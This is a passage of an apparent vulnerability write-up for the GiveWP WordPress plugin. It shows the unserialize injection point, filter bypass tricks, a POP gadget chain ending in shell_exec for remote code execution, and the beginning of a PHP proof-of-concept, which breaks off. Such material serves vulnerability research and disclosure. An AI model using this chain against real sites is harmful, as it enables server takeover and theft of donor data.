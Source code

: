 ### 3. Setup PHPSTORM like(Local):
![image](https://github.com/user-attachments/assets/d236eeba-b482-43e3-9028-3651cdbd10fd)
![image](https://github.com/user-attachments/assets/021c0cea-fbec-46e5-8824-bf6fd1feaed4)

### 4. PHPSTORM example (e.g. TCPDF arbitrary file deletion)
![image](https://github.com/user-attachments/assets/433c4824-314e-4982-bf85-34640a259053)


# Analysis
## Vulnerable point (includes/payments/class-give-payment.php)
At this point, get_meta() function unserializes the previously saved "give_title" value.
```sh
switch ( $key ) {
						case 'title':
							$user_info[ $key ] = Give()->donor_meta->get_meta( $donor->id, '_give_donor_title_prefix', true );
							break;
...
```

## Bypass technique
strip_tags: replace nullbytes -> using \0

stripslashes_deep: replace backslashes -> using \\\\\\\\

##  POP chaining for RCE
Stripe\StripeObject->__toString()

Stripe\StripeObject->toArray()

Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->toArray()

Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData->getLegacyBillingAddress()

Give->__get('address1')

\Give\Vendors\Faker\ValidGenerator->get('address1')

\Give\Vendors\Faker\ValidGenerator->__call('get', 'address1')

Give\Onboarding\SettingsRepository->get('address1')  (Return command string)

call_user_func('shell_exec', 'command')



PoC.php
```sh
<?php
namespace Stripe{
	class StripeObject
	{
		protected $_values;
		public function __construct(){
			$this->_values['foo'] = new \Give\PaymentGateways\DataTransferObjects\GiveInsertPaymentData();
		}
	}
}

namespace Give\PaymentGateways\DataTransferObjects{
	class GiveInsertPaymentData{
```